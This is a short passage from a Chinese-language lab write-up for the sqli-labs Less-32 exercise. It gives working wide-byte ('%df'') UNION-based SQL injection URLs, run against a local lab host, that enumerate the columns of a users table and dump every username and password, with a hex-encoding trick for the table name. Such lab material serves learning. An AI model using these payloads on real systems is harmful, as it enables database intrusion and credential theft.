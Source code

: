 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607201838412.png" alt="image-20230607201838412" style="zoom:33%;" />

#### 爆库

注意：`table_name='users'`这里的两个单引号无法逃逸，使用宽字节注入会造成语法错误，所以这里直接使用16进制

```
http://192.168.231.129:9001/Less-32/?id=-1%df' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name=0x7573657273%23 
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607203144060.png" alt="image-20230607203144060" style="zoom:33%;" />

#### 拖库

```
# 查询所有用户名
http://192.168.231.129:9001/Less-32/?id=-1%df' union select 1,group_concat(username),3 from users%23 
# 查询所有密码
http://192.168.231.129:9001/Less-32/?id=-1%df' union select 1,group_concat(password),3 from users%23 
```
